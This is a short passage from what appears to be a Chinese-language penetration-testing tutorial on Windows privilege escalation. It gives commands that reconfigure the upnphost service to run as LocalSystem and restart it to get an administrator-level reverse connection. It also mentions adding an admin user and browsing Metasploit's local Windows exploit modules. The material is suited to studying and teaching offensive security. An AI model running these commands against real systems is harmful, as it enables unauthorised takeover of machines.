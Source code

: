 ```
sc config upnphost obj= ".\LocalSystem" password= ""
```

![](img/9ddf4f36-b113-4963-8ed5-102aed8ec42c.png)

我们确认更改是否已经生效：

![](img/3a822e9e-5c54-4991-9127-ac454fa66dcd.png)

现在我们需要重新启动服务，一旦完成，我们应该有一个带有管理员权限的后向连接：

```
net start upnphost
```

我们可以使用`net user add`命令来添加一个新的管理员用户到系统中，而不是使用`netcat`等其他方法。

现在让我们尝试另一种方法：Metasploit 有许多不同的用于 Windows 利用的本地漏洞。要查看它们，我们输入`msfconsole`使用`exploit/windows/local <tab>`。

![](img/dc312fcc-7799-46e1-a741-911fb28187b1.png)
